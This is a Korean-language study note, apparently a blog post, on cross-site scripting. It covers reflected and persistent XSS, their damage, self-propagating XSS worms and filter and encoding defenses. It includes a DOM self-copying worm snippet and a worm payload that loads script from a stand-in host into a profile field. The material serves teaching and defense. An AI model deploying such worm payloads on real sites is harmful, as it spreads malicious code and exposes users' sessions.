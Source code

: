 ```yaml
---
title: Cross-Site Scripting Attack
tags: security XSS
key: page-cross_site_scripting_attack
cover: /assets/cover/cyber_security.png
mathjax: true
mathjax_autoNumber: true
---
```


## The Cross-Site Scripting Attack
* Attacker가 victim's browser에 code를 inject시키면 공격을 할 수 있는데 victim이 attacker의 page에 접속할때마다 그 공격이 이루어질 수 있는 것이다. 하지만 sandbox protection 때문에 그 공격이 이루어지지 않는다.
* 하지만 target page에 공격 코드를 inject시키면 공격을 성공시킬 수 있는데 이것을 cross-site scripting(xss) attack이라고 부르는 것이다.
* 기본적으로 어떤 웹사이트에서 온 코드는 그 웹사이트에 관해서는 다 신뢰하고 실행하게 된다. 따라서 그 웹사이트와 연관된 쿠키를 가지고 내용을 수정하거나 리퀘스트를 날리거나 뭐든지 할 수 있는것이다. 특히 active session을 가지고 있으면 어떠한 것도 그 웹사이트 안에서는 다 허용한다.
* 따라서 공격자가 target website에 코드를 심어서 공격을 하는 것이다.

## Non-persistent (Reflected) XSS Attack
* 대다수의 웹사이트들이 reflective behavior을 가지고 있다. 간단히 얘기하자면 user가 웹 사이트 input에 어떤 값을 넣어서 request를 보내면 서버는 user의 input값을 response에 포함시켜서 다시 보내는(reflect) 행위들을 의미한다.
* 이때 서버가 input을 제대로 sanitize하지 않는다면 input에 script 코드를 넣어서 보내면 다시 돌아올때 그것이 실행되게 되는 것이다.

## Persistent XSS Attack
* Target website에 data로써 코드를 저장시켜서 공격하는 기법이다.
* 예를들어 공격자가 자신의 프로필 수정란에 script code를 기입하고 그것을 db에 저장시킨다음 다른 사람들이 그 프로필을 보게 되면 injecte된 script code를 보게 되면서 그것을 실행하게 된다. 이것은 서버측에서 data로 저장할때 HTML markup을 제대로 sanitized하지 않았기 때문에 생기는 허점이다.
* 브라우저는 이러한 코드들을 서버에서 만든건지 다른 사람이 만든건지 구별할 수 없기 때문에 그 코드를 user의 privilege로 실행시켜버린다.

## What damage can XSS cause?
* Web defacing: JS code는 DOM APIs를 쓸 수 있기 때문에 hosting page의 DOM을 생산 혹은 제거, 변경 같은 것을 가능하게 하여 fake page를 만들수도 있고 형태 자체를 바꿔버릴 수 있다.
* Spoofing requests: JS code는 HTTP request도 가능하기 때문에 우리가 지금까지 얘기한것들의 예들로 fake user로 접근하여 서버에 fake user신분으로 의도치 않은 일들을 할 수 있다.
* Stealing information: Victim's private data(session cookie, 개인 정보 등)를 공격자에게로 쉽게 보낼 수 있다.

## XSS Attacks in Action
* 공격에 앞서 우선 target website가 어떤식으로 작동하는지를 우리가 코드를 심고자 하는 행위를 실행했을 때 HTTP header를 분석하면서 url 같은 것을 확인하고 이용한다.
* 공격할때는 스펠링 하나하나 잘 확인해야하고 target site마다 가지는 특성에 따라 공격 코드가 다 달라지기 때문에 정형화한 방식을 알려주기는 힘들다.
* 분석한 액션에 대한 url 분석만 잘 마치면 그 url의 패턴들에 따라 내용만 잘 넣어서 Ajax로 open(), setRequestHeader(), send()와 같은 함수들을 잘만 사용하면 공격에 성공할 수 있을 것이다.

## Achieving Self-Propagation
* 진짜 worm처럼 자가번식하면서 malware code를 퍼트리려면 DOM APIs를 통한 방식과 src attribute를 이용하여 link로 퍼트리는 방식이 있다.
### DOM Approach
* 웹 페이지가 만들어질때에는 브라우저측에서 Document Object Model(DOM)을 생성한다.
* DOM은 각 페이지의 내용들을 DOM nodes형태로 tree를 구성한다.
* 이 방식으로 공격할때에는 우리는 JS code를 DOM API를 통해 node 이름(id)을 부여하고 document.getElementByID()를 통해 그 노드를 불러오기만 하면 공격할 수 있다. 별거 없고 그냥 API 쓰면 DOM 접근 방식인거다. 코드를 다시 쓰는게 아니라 elegance하게 DOM API로 불러서 그 전체 코드를 content에 실어서 보내면 된다.
    ```javascript
    <script id="worm">

    // Use DOM API to get a copy of the content in a DOM node.
    var strCode = document.getElementById("worm").innerHTML;

    // Displays the tag content
    alert(strCode);

    </script>
    ```
### Link Approach
* 이거는 js파일을 그대로 불러서 src에다가 넣는것이다.
    ```javascript
    var warmCode = encodeURIComponent(
        "<script type=\"text/javascript\" "
        + "src=\"http://example.com/xss_worm.js\">";
        + "</" + "script>");

    // Set the content for the description field(이거는 특정 웹사이트에서 적용하는 방식을 이용한 것일뿐.)
    var desc="&description=SAMY is MY HERO" + wormCode;

    //(the rest of the code is the same as that in the previous approach)
    ..
    ```
* 위의 방식으로 js 파일(worm)을 넣기만 하면 된다.
* 위에서 </ script> 부분을 따로 스트링 처리 하는 이유는 만약 한 곳에 처리해버리면 firefox같은 브라우저는 하나로 인식해서 제대로 코드 전달이 안되기 때문이다. 브라우저 파싱 방식에 따라 달라질 것이다.

## Preventing XSS attacks
* XSS가 생기는 이유는 data와 code를 분리하지 않아서이다.
* 하지만 HTML markup을 지원하는 입장에서 분리하는게 결코 쉬운일은 아니다.
* user input으로 부터 코드를 없애거나 가능하면 그것을 ineffective하게 바꾸는 2가지의 방식이 있다. 보통 아래 2가지 방법을 섞어서 XSS를 예방한다.
    ### Filter Approach
    * user input으로 부터 코드를 지운다는 것인데 이게 쉽지 않다.
    * script 태그 외에 여러가지 방법으로 javascript를 작동시킬 수 있는 방법들이 존재한다.
    * 이건 만드는게 쉽지 않기 때문에 jsoup와 같은 오픈소스 코드를 사용해도 좋다.
    ### Encoding Approach
    * Code들을 브라우저가 볼 수 있는 방식(\&\lt; 같이 < 대신에 보여지는 방식)으로 바꾸는 것이다.
    * 브라우저가 representations하는 방식이 된다는 것은 코드는 실행되지 않는다는 것을 의미한다.

## Refrence

* [COMPUTER SECURITY: A Hands-on Approach by Wenliang Du](https://www.amazon.com/Computer-Security-Hands-Approach-Wenliang/dp/154836794X)